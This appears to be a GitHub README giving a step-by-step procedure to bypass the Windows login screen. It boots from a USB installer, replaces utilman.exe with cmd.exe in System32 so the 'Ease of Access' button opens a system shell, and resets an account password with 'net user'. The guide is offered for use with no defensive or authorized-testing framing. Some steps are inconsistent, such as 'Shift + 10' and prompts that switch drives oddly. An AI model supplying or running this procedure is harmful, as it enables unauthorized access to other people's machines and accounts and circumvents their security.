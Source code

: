 <h1 align="center">Bypass Windows Login Screen</h1>


## Explaination
We are trying to access CMD so that we can change the Username, Password without Logging in. So, We used Bootable USB: As we can access temporary CMD from there and there is also a way in Windows 10 via Troubleshooting but that's not possible for all Window User.

So after opening CMD we perform some steps like searching for System Files present in our main computer by checking each drive then after searching we go to the System32 Folder and there we contain our utilman.exe and cmd.exe File. So we make a copy of utilman.exe and then changed utilman.exe as cmd.exe. As if we execute utilman.exe file, then cmd.exe will get executed. And utilman.exe is one and only ""Ease of Access"" which is present at the bottom right in Windows. So, after changing that and starting our Windows normally. We can tap of ""Ease of Access"" and cmd.exe will get executed and we can use out short script for which we were waiting for.

net user username password -> this will change out password for particular account without any problem.

## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and boot from Pendrive and after Install Screen appears then hit Shift + 10 and CMD will open up.

2. X: \Sources>
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>
```bash
C:
#the directory which comtains your system files
```


4. C: \>
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>
```bash
D:
```


6. D: \>
```bash
cd Windows
```


7. D: \Windows>
```bash
cd System32
```


8. D: \Windows\System32>
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user username password
